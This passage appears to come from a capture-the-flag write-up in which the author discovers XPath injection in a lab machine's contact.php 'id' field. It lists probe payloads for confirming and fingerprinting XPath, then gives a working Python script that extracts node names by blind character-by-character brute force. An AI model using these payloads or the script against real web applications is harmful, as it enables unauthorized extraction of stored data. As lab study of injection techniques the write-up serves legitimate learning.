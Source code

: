 Fastforward and I'm stuck. After chatting to *g0blin* I get a hint that the `contact.php` is
a key. I start attempting to inject stuff into the `id` field. Eventually I notice that I am
not looking at the same DB. The ids don't match with what I saw before when I dumped the DB.
This is a new data store. But what is it?
SQL wasn't getting me anywhere so I leafed through books and notes and figured it could be
XML. If it is, it will most likely be something like `...user/id=1]` Adding `][1` at the end will
return the first and only result, and we should get the email as per normal. 
Adding `[2` will error and return nothing as there should only be one result. If this works
I can be fairly certain that this is an XPath query.

{% img http://i.imgur.com/7jRrIo0.png %}

Excellent, it worked. Now I need to figure out how to make use of this. XPath isn't
something I've come across very often.

So I begin to experiment. First off I figured out if it's XPath V2 or XPath V1.
If entering `id=1 or count(//*)][1` doesn't work, but `id=1 lower-case('A')][1` does,
then it's XPath V2, otherwise it's XPath V1.

While I played around with this something clicked in my head and I groked enough of XPi
(XPath injection) to get to the bottom of this. Using the truth from above we can
determine the xpath names using the `substring` function. I wrote another python
script to do the heavy lifting

{% highlight python %}
import requests
import string
import sys


path = ''
if len(sys.argv) > 1:
    path = sys.argv[1]

URL = 'http://signal8.darknet.com/contact.php'
payload_tpl = "1 and substring(name(%s),%d,1)='%s'][1"

name = ''
cmp_pos = 1
carry_on = True

while carry_on:

    carry_on = False
    print name
    for c in string.ascii_letters:
        payload = {'id': payload_tpl % (path,cmp_pos,c)}

        r = requests.get(URL, params=payload)
        if r.text.find('errorlevel') != -1:
            name += c
            carry_on = True
            break

    cmp_pos += 1

print 'Path name:', name
{% endhighlight %}
